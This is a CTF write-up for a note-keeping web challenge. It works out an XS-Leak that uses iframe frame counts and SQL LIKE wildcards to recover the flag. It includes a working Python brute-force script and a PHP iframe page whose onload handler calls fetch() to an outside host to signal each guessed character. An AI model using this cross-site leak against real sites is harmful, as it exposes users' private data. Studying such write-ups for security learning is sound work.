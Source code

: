 # Secret Note Keeper


## Problem Analysis
- This challenge looks same as 35C3 CTF filemanager:
    - Register / Login / Logout
    - Add note
    - Search Note
    - Report bug
    
- Let's try to report my domain and view the request:
    - `HeadlessChrome/74.0.3729.169 Safari/537.36`
    - [Chrome 74](https://portswigger.net/daily-swig/google-chromes-xss-auditor-goes-back-to-filter-mode), it seems like we can't use XSS Auditor to leak data. Because it goes back to filter mode from block mode.
- After fuzzing, we found two special characters:
    - `_` will match any single character
    - `%` will match many characters
    - we can use this feature to get the length of the flag
- In `Search note`, if it found any note, it will use `iframe` to import the corresponding note to the page.

## Exploit

- Obviously, this is a XS-Leak challenge
- We can use frame count (`contentWindow.length`) to identify whether it found the notes or not
    - found => `frame count >= 1`
    - not found => `frame count = 0`

- Write a script to bruteforce it:

```python
import requests
import hashlib
import re

def POW(target):
    mx = 10 ** 8
    nonce = 0
    while nonce < mx:
        s = str(nonce)
        res = hashlib.md5(s).hexdigest()
        if res.startswith(target):
            print(res)
            return s
        nonce += 1

alphabet = "!-=+~:?0123456789|abcdefghijklmnopqrstuvwxyz<>ABCDEFGHIJKLMNOPQRSTUVWXYZ_"

for i in alphabet:

    cookie = {"session":"286b4d92-cf9d-5d8e-9da2-0d2ce4617ac3", "session":".eJwljgkOwzAMBP_C5oUOkiL2mUA8hKS14ySI32Mg2HJmgPBAYx15PmF_H5du8HgF7CdqXaVwJOG4qj0saBWt6qUPGegmprfD5u6JVKVRXblWbZ74PI16Yl9cR5_CLDciTxJyq3fVE9uMKbpKM13JEpjC3tpAD0jgOvP4n8HW4PsDAIIvzQ.XPJRVA.xJ6roM-pNGsVmS9dS0rJr_BoCpI;"}

    r = requests.get("http://challenges.fbctf.com:8082/report_bugs", cookies=cookie)

    x = re.findall("proof of work for (.*) \(", r.text)
    print(x[0])

    ans = POW(x[0])
    print "ans:" + ans

    r2 = requests.post("http://challenges.fbctf.com:8082/report_bugs", data={"link":"http://kaibro.tw/log.php?1="+i, "pow_sol":ans, "body":"","title":""}, cookies=r.cookies)
    print r2.text
```

And the `log.php` in above script is:

```php
<iframe src="http://challenges.fbctf.com:8082/search?query=fb{cr055_s173_l34<?php echo $_GET[1];?>%}" onload="if(this.contentWindow.length>=1){fetch('http://kaibro.tw/?fb=ok');}">
```

If we found the character, then we will receive the `ok` request message. Then we can try the next character. 

flag: `fb{cr055_s173_l34|<5_4r4_c00ool!!}`

